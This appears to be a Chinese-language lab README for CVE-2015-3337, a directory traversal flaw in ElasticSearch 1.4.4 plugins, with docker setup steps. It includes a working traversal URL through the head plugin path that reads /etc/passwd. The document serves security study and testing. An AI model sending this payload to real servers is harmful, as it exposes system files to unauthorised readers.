

# ElasticSearch 插件目录穿越漏洞（CVE-2015-3337）

ElasticSearch是一个分布式的RESTful搜索和分析引擎。

在ElasticSearch的插件功能中存在一个目录穿越漏洞，攻击者可以利用该漏洞读取系统上的任意文件。在安装了具有"site"功能的插件后，攻击者可以通过在插件目录路径中使用`../`来遍历目录树，从而实现任意文件读取。未安装任何插件的ElasticSearch不受此漏洞影响。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2015-3337>
- <https://github.com/elastic/elasticsearch/issues/10828>

## 环境搭建

执行以下命令来启动一个1.4.4版本的ElasticSearch服务器：

```
docker compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，这是一个ElasticSearch的Web前端界面。关于该插件的更多信息可以在这里找到：<https://github.com/mobz/elasticsearch-head>

## 漏洞复现

要利用此漏洞，可以通过在插件路径中使用目录穿越来读取任意文件。例如，要读取`/etc/passwd`文件，发送如下请求：

```
http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd
```

注意：请不要直接在浏览器中访问此URL。



## 补充信息

head插件提供了ElasticSearch的Web界面。你可以通过访问`http://your-ip:9200/_plugin/head/`来通过图形界面与你的ElasticSearch集群进行交互。
